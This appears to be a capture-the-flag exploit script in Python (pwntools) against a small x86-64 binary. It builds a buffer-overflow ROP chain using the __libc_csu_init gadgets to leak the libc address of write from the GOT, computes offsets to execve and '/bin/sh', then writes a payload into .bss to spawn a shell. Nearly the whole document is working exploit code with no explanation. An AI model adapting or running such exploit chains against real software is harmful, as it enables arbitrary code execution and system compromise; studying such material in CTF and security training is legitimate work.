 ```python
#util.proc.wait_for_debugger(pid)

#pause()

p.recvuntil(b"World\n")

def csu_pop(rbx,rbp,r12,r13,r14,r15,ret,base_addr):
    payload = p64(base_addr + 0x40061a)
    payload += p64(rbx) + p64(rbp) + p64(r12)+ p64(r13)+ p64(r14)+ p64(r15)
    payload += p64(base_addr + 0x400600)
    payload += b"A" * 0x38
    payload += p64(base_addr + ret)

    return payload


def csu_pop_easy(edi,rsi,rdx,call,ret,base_addr = 0):
    return csu_pop(0,1,call,rdx,rsi,edi,ret,base_addr)



payload = b"A" * 0x88 

got_write = 0x00601018
got_read = 0x00601020
main_addr = 0x00400587

payload += csu_pop_easy(1,got_write,8,got_write,main_addr,0)

p.sendline(payload)

libc_write = u64(p.recvn(0x8))
libc_read = libc_write - 0xa0
libc_exeve = libc_write - 0x245E0
libc_system  = libc_write - 0xa8d90
libc_bash_sh = libc_write + 0x996dc

bss = 0x00601040

print(hex(libc_write))
print(hex(libc_bash_sh))

p.recvuntil(b"World\n")



payload = b"A" * 0x88 

payload += csu_pop_easy(0,bss,16,got_read,main_addr,0)

p.sendline(payload)



payload = p64(libc_exeve) + b'/bin/sh' + b'\x00'

p.send(payload)

#00000000000ed630 write 
#00000000000c9050 execve 
# write - exeve = 245E0


```